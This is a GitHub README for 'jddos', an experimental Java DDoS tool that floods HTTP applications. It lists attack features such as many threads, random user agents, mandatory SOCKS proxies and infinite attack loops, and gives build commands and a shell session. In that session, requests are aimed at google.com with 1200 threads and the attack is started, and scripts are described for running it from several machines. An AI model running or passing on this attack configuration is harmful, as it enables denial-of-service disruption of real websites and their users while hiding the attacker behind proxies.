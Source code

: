 # jddos
Experimental Java based dDos tool
---

jDdos is dDos script that targets HTTP based applications. This script is written in Java and it's only experimental so **I do not take responsiblities for any usages**, you might use it at your own risks.


## Main features

- HTTP GET and POST (only json) support
- Accepts multiple threads
- Configurable headers
- Automatically adds random user agent to headers
- Accepts and forces you to use SOCKS proxy
- Can read list of SOCKS proxy from url
- Configurable number of threads running the attack.
- Distributed different proxies to between requests. Distributed requests between threads.
- Can run infinite attack until told to stop
- Configurable sleep time between request from each service (Default is random)
- Uses **Spring Shell**, therefore its easy to write an attack script and copy it into several machines


## RUN

First build the project

    mvn clean install

Run it
```
 $ docker build -t image/hammer .
 $ docker run -it image/hammer
```

Commands:

    add-get-request: Adds get request for attack
    add-header: Adds header
    add-post-request: Adds post request for attack
    add-proxy: Adds proxy - example => 127.0.0.1:9050
    clean: Cleans attack settings
    explain: Explains current config
    read-proxy-list: Reads proxy list from url
    running: Makes infinite running threads, default is false
    set-sleep: Sets exact sleep time between infinte loop of each thread. Default = 0 (Random sleep time)
    start: Runs hammer 
    stop: Stops hammer
    threads: Sets threads count

Example:
```
   shell:>add-proxy 127.0.0.1:9050
   2019-05-13 17:27:37.228  WARN 1 --- [           main] load.test.shell.hammer.Commands          : You cant add proxies to currently running jdDos! Do a restart
   2019-05-13 17:27:37.229  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   
   shell:>add-get-request http://google.com
   2019-05-13 17:27:41.542  WARN 1 --- [           main] load.test.shell.hammer.Commands          : New requests wont effect running attack. You must restart attack
   2019-05-13 17:27:41.543  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   
   shell:>threads 1200
   2019-05-13 17:27:45.230  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   
   shell:>explain
   Addresses: 
   400 threads will make request to http://google.com
   400 threads will make request to http://localhost.com/post
   400 threads will make request to http://google.com
   Proxies: 
   127.0.0.1:9050
   127.0.0.1:9050
   Infinite requests: false
   Total threads count: 1200
   
   shell:>add-post-request --address http://localhost.com/post --data {\"name\":\"yuri_lenzi\"}
   2019-05-13 17:28:05.502  WARN 1 --- [           main] load.test.shell.hammer.Commands          : New requests wont effect running attack. you must restart attack
   2019-05-13 17:28:05.502  INFO 1 --- [           main] load.test.shell.hammer.Commands          : done
   shell:>start
```

To skip writing all commands each time, create a file named `scripts.txt` for example and enter all the commands in right order.
Then start `hammer` and enter:

    script --file /address/to/scripts.txt

Your attack configuration will load into the application.

